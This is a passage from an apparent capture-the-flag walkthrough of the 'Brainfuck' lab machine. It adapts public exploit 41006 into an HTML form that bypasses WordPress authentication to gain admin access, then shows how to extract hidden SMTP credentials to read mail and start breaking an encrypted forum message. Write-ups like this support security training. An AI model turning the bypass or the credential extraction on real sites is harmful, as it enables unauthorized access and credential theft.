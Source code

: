 We will try to use the exploit `41006` to gain an admin access to the wordpress website

```sh
# To see the exploit explanation
$ searchsploit -x exploits/php/webapps/41006.txt
```

Modify the exploit to be adapted to our target:

```sh
# File: exploit.html

<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

```sh
$ python -m SimpleHTTPServer 8080

# Go to http://127.0.0.0:8080/exploit.html and click on login
```

NICE ! We have now a privileged access to the admin page of the wordpress website.

</br>

## Step #3

Since we see that the port we see that the port `25 (SMTP)`, `110 (POP3)` && `143 (IMAP)` are open we will try to find mail credentials of `orestis` :


*  Go to `Settings > Easy WP SMTP` on the sidebar
* Get credentials (password is hidden => WebBrowser console)
* Connect to the mail server with the account obtained (Using Mail.app on OSX)
* Read email => Get Forum account credentials (``sup3rs3cr3t.brainfuck.htb``)

</br>

## Step #4

On this forum, there two thread, on in cleartext (SSH Access) and the other one encrypted (Key). However, orestis use a signature at the end of each messages:

```
Orestis - Hacking for fun and profit
```

That give that on encrypted messages:

```
Pieagnm - Jkoijeg nbw zwx mle grwsnn
```

```
Wejmvse - Fbtkqal zqb rso rnl cwihsf
```
